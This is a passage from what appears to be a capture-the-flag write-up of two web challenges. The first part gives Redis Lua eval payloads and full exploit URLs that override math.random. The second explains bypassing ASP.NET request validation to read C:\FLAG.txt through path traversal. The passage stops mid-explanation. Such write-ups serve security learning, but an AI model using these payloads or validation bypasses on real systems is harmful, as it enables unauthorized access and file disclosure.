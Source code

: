 Even with those limitations, we still try to overwrite `math.random` function call. After some searching I got [this](https://stackoverflow.com/questions/19997647/script-attempted-to-create-global-variable), so I think if it's possible to create a global variable, it should not be hard to overwrite one.

Therefore, we just overwrite `math.random` like this in redis.

```
eval "function math:random() return 87 end" 0
```

Here is the final payload. Because the server will check if the key exists in redis or not, we have to set that one in redis first:

```
http://54.250.242.183/luatic.php?token=mytoken&_POST[guess]=87&_POST[TEST_KEY]=function%20math%3Arandom()%20return%2087%20end&_POST[TEST_VALUE]=0
```

Then overwrite the function. The return value will be fixed.

```
http://54.250.242.183/luatic.php?token=052e31ea-dc02-48ea-8e76-e277c4b03c60&_POST[guess]=87&_POST[MY_SET_COMMAND]=eval&_POST[TEST_KEY]=function%20math%3Arandom()%20return%2087%20end&_POST[TEST_VALUE]=0
```

Flag: `hitcon{Lua^H Red1s 1s m4g1c!!!}`


### Buggy .NET

flag is in the `C:\FLAG.txt`

Thus we need to bypass `..` restriction to read files.

And in one year ago, I have read @irsdl's .NET WAF Bypass slide: https://www.slideshare.net/SoroushDalili/waf-bypass-techniques-using-http-standard-and-web-servers-behaviour

The example code in the slide is almost same as this challenge. 

We just need to throw an exception when we use `Request.Form["filename"]` first time.

But I tried a lot of charset tricks (IBM500, IBM037, ...) and it never throw any exception.

So I started to read the .NET source code, and I found that we should use some malicious payload (e.g. XSS) to trigger the Request Validation exception.

(The function calling chain looks like: `Form.get` -> `ValidateHttpValueCollection` -> `collection.EnableGranularValidation` -> `ValidateString` -> `RequestValidator.Current.IsValidRequestString` -> `rossSiteScriptingValidation.IsDangerousString` -> `throw new HttpRequestValidationException`)

And it validated the Form data only once, so it will not throw any exception when we called it in the second time.

```
public NameValueCollection Form {
    get {
        EnsureForm();

        if (_flags[needToValidateForm]) {
            _flags.Clear(needToValidateForm);
            ValidateHttpValueCollection(_form, RequestValidationSource.Form);
        }

        return _form;
    }
}
```
